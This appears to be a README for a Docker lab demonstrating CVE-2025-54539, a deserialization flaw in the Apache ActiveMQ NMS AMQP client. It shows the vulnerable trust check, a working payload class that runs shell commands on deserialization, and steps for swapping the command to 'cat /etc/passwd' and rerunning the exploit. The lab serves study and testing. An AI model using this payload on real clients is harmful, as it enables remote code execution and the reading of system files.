

# Introduction

CVE-2025-54539 is a critical deserialization vulnerability affecting Apache ActiveMQ NMS AMQP Client versions up to and including 2.3.0. This vulnerability allows remote code execution through malicious AMQP server responses by exploiting a bypass in the client's binary deserialization protection mechanisms. The issue stems from improper handling of null type references during the deserialization validation process, allowing attackers to circumvent allow/deny list protections through SerializationInfo manipulation. When successfully exploited, this vulnerability can lead to arbitrary code execution on client systems connecting to malicious AMQP servers, making it particularly dangerous in environments where clients connect to untrusted or compromised message brokers.

## The Core Vulnerability

**CVE-2025-54539** exists in the `NmsDefaultDeserializationPolicy` class where the `IsTrustedType()` method incorrectly trusts `null` types:

```csharp
// VULNERABLE CODE in Apache.NMS.AMQP 2.3.0
public bool IsTrustedType(IDestination destination, Type type)
{
    if (type == null)
    {
        return true;  // Null types are automatically trusted!
    }

    // Additional validation only happens if type is not null
    // ...
}
```

### Attack Flow




1. Attacker creates malicious payload
   
2. Payload manipulates SerializationInfo to return null type
   
3. AMQP client receives BytesMessage with serialized payload
   
4. BinaryFormatter.Deserialize() is called
   
5. Type validation receives null → IsTrustedType(null) returns true
   
6. Deserialization proceeds without validation
   
7. Malicious constructor/OnDeserialized callback executes
   
8. Remote Code Execution achieved

## Lab Setup
```
┌─────────────────────────────────────────────────────────────┐
│                     Docker Environment                       │
├─────────────────────────────────────────────────────────────┤
│                                                               │
│  ┌──────────────┐         ┌──────────────┐         ┌──────────────┐
│  │   Exploit    │         │     AMQP     │         │  Vulnerable  │
│  │   Server     │◄───────►│    Broker    │◄───────►│    Client    │
│  │  (Attacker)  │  AMQP   │  (ActiveMQ)  │  AMQP   │   (Victim)   │
│  └──────────────┘         └──────────────┘         └──────────────┘
│       │                          │                         │
│       │                          │                         │
│       │                   Port 8161 (Web UI)              │
│       │                          │                         │
│  Sends malicious         Message queue           Deserializes &
│  serialized payload      infrastructure           executes payload
│                                                              │
│                                                    ┌─────────▼────────┐
│                                                    │  File Creation   │
│                                                    │  Command Exec    │
│                                                    │  Reverse Shell   │
│                                                    └──────────────────┘
└─────────────────────────────────────────────────────────────┘
```

### Files in This Lab

```
Exploit_Lab/
├── VulnerableClient/
│   ├── Program.cs              # Main vulnerable application
│   ├── VulnerableClient.csproj # Project dependencies
│   └── Dockerfile              # Container image
├── ExploitServer/
│   ├── Program.cs              # Exploit delivery system
│   ├── ExploitServer.csproj    # Project dependencies
│   └── Dockerfile              # Container image
├── Payloads/
│   └── ExploitPayloads.cs      # All payload classes
├── demo-docker-compose.yml     # Docker orchestration
├── run-exploit-demo.sh         # Automated demo script
```

- Run Lab:
```sh
chmod +x run.sh && ./run.sh
```

## Modifying Payloads

### Understanding the Payload Structure

All exploit payloads are defined in `Payloads/ExploitPayloads.cs`. The key payload class is `FileCreationExploitPayload`:

```csharp
[Serializable]
public class FileCreationExploitPayload
{
    public string Command { get; set; }
    public string TargetFile { get; set; }
    public DateTime Timestamp { get; set; }

    // Default constructor with default command
    public FileCreationExploitPayload() : this("touch /tmp/PoC.txt")
    {
    }

    // Constructor with custom command
    public FileCreationExploitPayload(string command)
    {
        Command = command;
        TargetFile = "/tmp/PoC.txt";
        Timestamp = DateTime.UtcNow;

        // Exploit executes in constructor during deserialization
        ExecuteExploit();
    }

    // This callback is triggered AFTER deserialization completes
    [System.Runtime.Serialization.OnDeserialized]
    private void OnDeserialized(System.Runtime.Serialization.StreamingContext context)
    {
        Console.WriteLine("[FILE-PAYLOAD] OnDeserialized callback triggered!");
        ExecuteExploit();
    }

    private void ExecuteExploit()
    {
        // Cross-platform command execution
        string shellCommand = Environment.OSVersion.Platform == PlatformID.Win32NT
            ? "cmd.exe" : "/bin/sh";
        string shellArgs = Environment.OSVersion.Platform == PlatformID.Win32NT
            ? $"/c {Command}" : $"-c \"{Command}\"";

        // Execute the command and capture output
        var process = System.Diagnostics.Process.Start(new ProcessStartInfo()
        {
            FileName = shellCommand,
            Arguments = shellArgs,
            RedirectStandardOutput = true,
            RedirectStandardError = true
        });

        // ... process handling ...
    }
}
```

### Modify Default Command

**File**: `Payloads/ExploitPayloads.cs`

**Change the default constructor**:

```csharp
// BEFORE: Creates /tmp/PoC.txt
public FileCreationExploitPayload() : this("touch /tmp/PoC.txt")

// AFTER: Execute different command
public FileCreationExploitPayload() : this("cat /etc/passwd")
```

**Rebuild and run**:
```bash
cp Payloads/ExploitPayloads.cs ExploitServer/
docker build -t cve-2025-54539-exploit-server ExploitServer/
./run-exploit-demo.sh
```
